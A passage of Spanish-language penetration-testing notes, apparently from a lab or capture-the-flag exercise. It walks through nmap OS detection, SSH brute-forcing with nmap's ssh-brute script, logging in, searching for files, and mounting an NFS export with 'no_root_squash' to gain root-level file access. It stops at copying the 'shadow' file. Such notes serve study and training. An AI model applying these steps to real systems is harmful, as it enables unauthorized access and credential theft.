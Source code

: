 5. Averiguar la version del sistema operativo instalado en la maquina

	sudo nmap [ip] -O

	O: Sistema Operativo

	Salida:
		Running: Linux 2.6.X
		OS CPE: cpe:/o:linux:linux_kernel:2.6
		OS details: Linux 2.6.9 - 2.6.33

6. Iniciar sesion en la maquina a traves de SSH

	1 - Intentar conseguir credenciales con fuerza bruta

	nmap --script ssh-brute [ip]

	Salida:
		Accounts:
			[nombre_usuario]:[contraseña] - Valid credentials

	2 - Conseguidas las credenciales, iniciar sesion en la maquina

	ssh [nombre_usuario]@[ip] // [contraseña]

	3 - Dentro, buscamos ficheros

	find / -type f -name [nombre_fichero] 2> /dev/null

		2> /dev/null	-> no imprime los errores

	4 - Ver permisos de fichero

	ls -l [ruta_fichero]

	5 - Si permiso de lectura, ver contenido de fichero

	cat [ruta_fichero]

	6 - Cambiar permisos

		0. Como tiene NFS activo, comprobar que se pueda montar
			el arbol de directorios y ver los permisos que
			aporta al cliente

		cat /etc/exports
		
		Si tiene activa la opcion "no_root_squash", esta
			permitiendo a cualquier cliente en modo root
			acceder a los ficheros como root en el server

		a. En local, crear un directorio donde montaremos la
			proyeccion del sistema nfs de la maquina atacada

		mkdir [ruta_directorio]

		b. En local, montar el sistema nfs en el directorio

		sudo mount -t nfs [ip]:/ [ruta_directorio]

		t: tipo de sistema de ficheros

		c. Hacer una copia del archivo "shadow" por seguridad
